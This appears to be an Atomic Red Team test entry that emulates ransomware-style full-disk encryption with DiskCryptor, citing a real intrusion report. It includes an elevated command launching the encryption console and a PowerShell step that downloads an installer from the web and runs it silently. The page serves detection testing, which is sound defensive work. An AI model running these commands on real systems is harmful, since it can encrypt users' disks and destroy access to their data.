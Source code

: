 


<br/>
<br/>

## Atomic Test #9 - Data Encrypt Using DiskCryptor
DiskCryptor, an open source encryption utility, can be exploited by adversaries for encrypting all disk partitions, including system partitions. This tool was identified in a ransomware campaign, as reported on https://thedfirreport.com/2021/11/15/exchange-exploit-leads-to-domain-wide-ransomware/. The documentation for DiskCryptor can be found at https://github.com/DavidXanatos/DiskCryptor. During the installation process, running dcrypt.exe starts the encryption console. It's important to note that a system reboot is necessary as part of the installation.

**Supported Platforms:** Windows


**auto_generated_guid:** 44b68e11-9da2-4d45-a0d9-893dabd60f30





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dcrypt_exe | The dcrypt.exe executable from dcrypt_setup.exe | path | dcrypt.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
""%PROGRAMFILES%\dcrypt"\#{dcrypt_exe}"
```




#### Dependencies:  Run with `powershell`!
##### Description: dcrypt_setup will be installed at specified location (#{dcrypt_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "${env:ProgramFiles}/dcrypt/#{dcrypt_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Downloading DiskCryptor installer
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/DavidXanatos/DiskCryptor/releases/download/1.1.846.118/dcrypt_setup_1.1.846.118.exe" -OutFile      "PathToAtomicsFolder\..\ExternalPayloads\dcrypt_setup_1.1.846.118.exe"
Write-Host Install DiskCryptor
Start-Process "PathToAtomicsFolder\..\ExternalPayloads\dcrypt_setup_1.1.846.118.exe" -Wait -ArgumentList "/s"
```




<br/>
